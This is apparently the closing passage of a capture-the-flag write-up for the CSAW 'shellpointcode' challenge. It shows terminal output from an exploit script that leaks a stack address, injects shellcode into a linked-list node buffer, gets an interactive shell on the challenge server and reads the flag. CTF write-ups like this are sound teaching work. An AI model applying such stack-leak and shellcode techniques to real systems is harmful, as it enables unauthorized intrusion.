 and when we run it:

```
$	cat flag.txt 
python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 9005: Done
Linked lists are great! 

They let you chain pieces of data together.


(15 bytes) Text for node 1:  
(15 bytes) Text for node 2: 
node1: 
node.next:
leak:  0x7ffcf208c660
[*] Leak is: 0x7ffcf208c660
ls
hello
[*] Switching to interactive mode
node.buffer: \x901���;H��WT_\x0f\x05
What are your initials?
Thanks 00000000000h��
node.next:                      w
 04:15:53 up 3 days,  7:39,  0 users,  load average: 0.23, 0.16, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
node.next: ls
flag.txt
shellpointcode
node.next: cat flag.txt
flag{NONONODE_YOU_WRECKED_BRO}
node.next: 
[*] Interrupted
[*] Closed connection to pwn.chal.csaw.io port 9005

```

Just like that, we captured the flag!